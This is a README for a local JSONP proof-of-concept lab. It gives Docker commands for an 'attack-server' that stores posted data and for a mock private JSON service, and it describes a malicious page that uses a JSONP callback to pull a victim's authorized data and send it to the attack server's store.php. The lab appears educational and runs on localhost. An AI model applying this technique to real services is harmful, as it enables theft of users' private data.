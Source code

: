 # JSONP-PoC
JSONP (=JSON with padding) is a special method to wrap JSON data in a JavaScript function.
If a webervice allows requests with custom defined callback-functions, the webservice might be vulnerable to JSONP attacks.
How this could be achieved, is described below.

## Starting the attack-server
The attack-server is the server that receives our data and stores it in a file. To do this, we need to make a POST request to http://127.0.0.1:8082/store.php with the `data` parameter. For example:
```
POST /store.php HTTP/1.1
Host: 127.0.0.1:8082
User-Agent: Firefox
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Connection: close
Upgrade-Insecure-Requests: 1

data=test
```
See also `test-post.html` which can be used to make such POST requests.

To start the server:
```
cd attack-server
docker run --rm -p 8082:80 --name attack-server --mount type=bind,source="$(pwd)",target=/var/www/html php:apache
```
The file `./data/data.sav` may still need to be given the correct permissions:
```
docker exec -it attack-server bash
mkdir data
touch data/data.sav
chown -R www-data:www-data data
```

## Starting the (private) json-webserver
```
cd json-webserver
docker run --rm -p 3000:3000 --name json-server -v `pwd`:/data williamyeh/json-server --watch db.json
```

## Stopping the servers
```
docker stop attack-server
docker stop json-server
```

## Checks
Verify if POST-requests can be sent to the attack-server:
```
http://127.0.0.1:8082/test-post.html
```
Change into the docker container and output the file `data.sav`:
```
docker exec -it attack-server bash
cat /var/www/html/data/data.sav
```
The file `data.sav` should contain the string that you sent via the `test-post.html` website.

Check if the json-webserver is running and responds with JSON-data:
```
http://127.0.0.1:3000/posts
```

## PoC
Now assume the following scenario:
If the webservice or the data served by the webservice (json-webserver) is only accessible to authorized users, there is no way to directly access this private data by an attacker. For example, accessibility to the data could be granted to users that include certain cookies or other secrets into their requests. The webservice would then respond to these requests only if the cookies are valid.

If however the webservice allows JSONP, we could create a malicious website that makes requests from the victims browser to the vulnerable webservice. The requests sent from the victims browser would include all necessary cookies to authorize against the webservice.
The only thing to do is to lure the victim to the malicious website.
In our PoC the malicious website is running under
```
http://127.0.0.1:8082/jsonp-attack.html
```

If the victim opens this link, a request to the webservice with a callback parameter is made:
```
http://127.0.0.1:3000/posts?callback=myCallbackServer
```
The callback `myCallbackServer` is a JavaScript-function that takes the data received from the webservice and sends it back to our attack-server via
```
http://127.0.0.1:8082/store.php
```

It can be checked if the data from the webservice was received corretly by cat'ing the file `data.sav`:
```
docker exec -it attack-server bash
cat /var/www/html/data/data.sav
```
